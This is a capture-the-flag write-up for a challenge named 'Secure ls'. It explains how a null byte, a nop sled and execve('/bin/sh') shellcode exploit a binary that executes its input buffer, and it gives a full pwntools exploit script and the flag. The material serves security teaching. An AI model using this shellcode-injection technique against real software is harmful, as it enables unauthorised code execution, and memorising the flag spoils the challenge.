 # Secure ls

## Challenge

The program is a simple version of the `ls` utility.

We are allowed to pass 0 or 1 options to the program under normal conditions.
These options are restricted to `-a` and `-l`.

The program will then print a list of files/directories in the current working directory.
Depending on our options, this may or may not include dotfiles and may or may not be in a list.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

## Solution

Notably, NX is disabled and there are RWX segments, which is unusual for modern binaries.

If we look at the `err` macro, we can see that it simply calls its argument as a function.
The macro is being used to execute code in the buffer at a random offset if the `l` option is
included.

We can pass the `arglen` check in `main` by adding a null byte to our input after our options.
We need to include both options to satisfy `arglen == 3`, as normally the third character would be a
newline, however we cannot include one as this would end our input.

After the null byte, we can include around 256 null bytes.
This nopsled ensures that the code executed by the macro will eventually reach our shellcode.
After the nopsled, we can write a standard `execve("/bin/sh", NULL, NULL)` shellcode on the buffer.

The program will begin executing code on the nopsled, which will lead it to our shellcode.
This will spawn a shell which we can use to read the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host srv3.momandpopsflags.ca --port 8754 lS
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('lS')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'srv3.momandpopsflags.ca'
port = int(args.PORT or 8754)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      PIE enabled
# RWX:      Has RWX segments

io = start()

payload = flat({
    0x0: b'-al\0',
    0x100: asm(shellcraft.sh()),
    }, filler=asm(shellcraft.nop()))
io.sendlineafter(b"Enter flags you would like to use with lS: ", payload)

io.interactive()
```

## Flag

```
magpie{sh3llc0d3_b3_sl1pp1n}
```
